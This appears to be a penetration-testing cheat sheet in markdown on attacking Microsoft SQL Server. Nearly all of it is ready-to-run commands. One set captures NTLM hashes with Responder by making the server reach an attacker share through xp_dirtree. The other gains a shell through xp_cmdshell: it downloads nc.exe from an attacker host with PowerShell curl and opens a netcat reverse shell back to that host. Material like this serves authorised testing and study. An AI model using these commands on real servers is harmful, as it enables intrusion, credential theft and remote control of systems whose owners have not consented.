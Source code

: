 # Microsoft SQL Server
---

### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder) (Intsalled by default in Kali)

 1. Running Responder.
```bash
sudo responder -I tun0 
```
 2. Starting an HTTPServer.
```bash
sudo python3 -m http.server 80
```
 3. Listing a fake share to trigger the protocol.
```bash
xp_dirtree "\\<ATTACKER-IP>\meow"
```
 4. Check Responder and take the hash and decrypt it.
### Gaining a shell
1. Log in using impacket-mssqlclient
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
2. You can execute commands on MSSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND>'
```
3. Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
4. Trigger it:
```bash
EXEC xp_cmdshell '<PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```